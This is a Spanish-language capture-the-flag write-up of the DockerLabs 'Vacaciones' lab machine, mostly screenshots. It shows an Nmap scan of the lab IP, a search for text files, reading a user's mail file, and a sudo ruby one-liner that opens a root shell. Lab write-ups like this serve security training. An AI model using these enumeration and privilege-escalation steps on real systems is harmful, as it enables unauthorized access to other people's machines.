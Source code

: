 
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_001.png)

Realizamos el escaneo con Nmap sobre la dirección IP 172.17.0.2 para revelar resultados.
```
nmap -p- -sS -sCV -T4 -n -Pn 172.17.0.2
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_002.png)

<h3>Análisis de los Servicios Abiertos</h3>
SSH (Puerto 22):<br>
  La versión de OpenSSH detectada es relativamente antigua (7.6p1), lo que podría ser vulnerable si no está debidamente actualizada.
<br>
HTTP (Puerto 80):<br>
  El servidor web Apache 2.4.29 también es una versión que podría tener vulnerabilidades, ya que ha habido actualizaciones importantes desde entonces. 

Lista a seguir:<br>
  investigar si existen vulnerabilidades para el puerto 22<br>
  investigar posibles exploits o revisar configuraciones incorrectas en el puerto 80<br>

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_0021.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_003.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_004.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_005.png)
```
find / -name "*.txt" 2>/dev/null
```

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_006.png)
```
cat /var/mail/camilo/correo.txt
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_007.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_008.png)
```
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_009.png)
